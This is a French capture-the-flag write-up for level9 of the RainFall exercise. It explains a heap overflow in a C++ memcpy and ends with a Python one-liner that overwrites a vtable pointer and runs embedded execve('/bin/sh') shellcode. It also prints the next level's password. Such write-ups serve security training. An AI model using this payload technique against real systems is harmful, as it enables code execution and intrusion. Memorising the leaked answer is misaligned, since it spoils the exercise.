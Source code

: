 L'on remarque un double déréférencement du registre eax qui se trouve être un pointeur vers le deuxième objet créé.

```bash
 8048680:	8b 00                	mov    (%eax),%eax    -> (vtable)
 8048682:	8b 10                	mov    (%eax),%edx    -> (Fonction operateur+)
```

Nous remarquons également un memcpy qui prend en paramètre le premier argument et qui prend un strlen de notre entrée. Le memcpy pointe vers le premier objet.

```bash
0804870e <_ZN1N13setAnnotationEPc>:
 804870e:	55                   	push   %ebp
 804870f:	89 e5                	mov    %esp,%ebp
 8048711:	83 ec 18             	sub    $0x18,%esp
 8048714:	8b 45 0c             	mov    0xc(%ebp),%eax
 8048717:	89 04 24             	mov    %eax,(%esp)
 804871a:	e8 01 fe ff ff       	call   8048520 <strlen@plt>
 804871f:	8b 55 08             	mov    0x8(%ebp),%edx
 8048722:	83 c2 04             	add    $0x4,%edx
 8048725:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048729:	8b 45 0c             	mov    0xc(%ebp),%eax
 804872c:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048730:	89 14 24             	mov    %edx,(%esp)
 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
```

Nous observons le ltrace du level9 afin de trouver l'endroit où sont stockés nos objets.
Puis on overflow le memcpy afin d'écrire sur la vtable du deuxième objet l'adresse d'une adresse mis aux préalable dans le premier objet qui lui même redirige vers le shellcode inséré dans le deuxième objet. #Leo adore l'artificiel !

```bash
level9@RainFall:~$ ltrace ./level9 aa
__libc_start_main(0x80485f4, 2, 0xbffff7e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)          = 0
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                     = 0x804a008 <-
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                              = 0x804a078 <-
strlen("aa")                                                                   = 2
memcpy(0x0804a00c, "aa", 2)                                                    = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c)        = 0xb7fce4a0
+++ exited (status 11) +++
```

```bash
level9@RainFall:~$ ./level9 $(python -c 'print "Z" * 104 + "\x7c\xa0\x04\x08" + "\x74\xa0\x04\x08" + "\x31\xC0\x31\xDB\x31\xD2\x31\xC9\xB0\x0B\x53\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\xCD\x80"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
